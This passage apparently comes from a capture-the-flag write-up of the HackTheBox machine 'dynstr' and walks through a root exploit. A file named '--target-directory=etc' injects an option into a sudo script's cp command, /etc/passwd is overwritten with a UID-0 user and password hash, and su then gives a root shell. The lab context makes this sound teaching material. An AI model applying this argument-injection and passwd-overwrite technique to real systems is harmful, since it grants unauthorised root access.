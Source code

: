     bindmgr@dynstr:/tmp/tmp.Fk4IdAaCre$ ls -la
    total 16
    drwx------  2 bindmgr bindmgr 4096 Jun 13 23:29  .
    drwxrwxrwt 17 root    root    4096 Jun 13 23:27  ..
    lrwxrwxrwx  1 bindmgr bindmgr    4 Jun 13 23:29  etc -> /etc
    -rw-r--r--  1 bindmgr bindmgr 1698 Jun 13 23:28  passwd
    -rw-rw-r--  1 bindmgr bindmgr    0 Jun 13 23:29 '--target-directory=etc'
    -rw-rw-r--  1 bindmgr bindmgr    5 Jun 13 23:29  .version



Now I'll run the script:



    bindmgr@dynstr:/tmp/tmp.Fk4IdAaCre$ sudo bindmgr.sh 
    sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
    [+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /tmp/tmp.Fk4IdAaCre.
    [+] Creating /etc/bind/named.conf.bindmgr file.
    [+] Staging files to /etc/bind/named.bindmgr.
    cp: -r not specified; omitting directory 'etc'
    cp: -r not specified; omitting directory '/etc/bind/named.bindmgr/'
    [+] Checking staged configuration.
    [-] ERROR: The generated configuration is not valid. Please fix following errors: 
        /etc/bind/named.conf.bindmgr:2: open: /etc/bind/named.bindmgr/etc: file not found



The user is now in `/etc/passwd`:



    bindmgr@dynstr:/tmp/tmp.Fk4IdAaCre$ tail -1 /etc/passwd
    oxdf:$1$KLTiIosS$EcdrRFwOKrCmloQFSZ2zn1:0:0:pwned:/root:/bin/bash



Running `su` and entering the password returns a root shell:



    bindmgr@dynstr:/tmp/tmp.Fk4IdAaCre$ su - oxdf
    Password: 
    root@dynstr:~# 



## Beyond Root

### no-ip API

The webserver is very simple on this box. There's a static `index.md`
page at the root, with the `assets` directory containing style and
images:



    www-data@dynstr:/var/www.md$ ls
    assets  attribution.txt  index.md  nic
    www-data@dynstr:/var/www.md$ find nic/ -type f -ls
       285028      0 -rw-r--r--   1 root     root            0 Mar 12 19:41 nic/index.md
       285029      4 -rw-r--r--   1 root     root         1110 Mar 13 19:40 nic/update
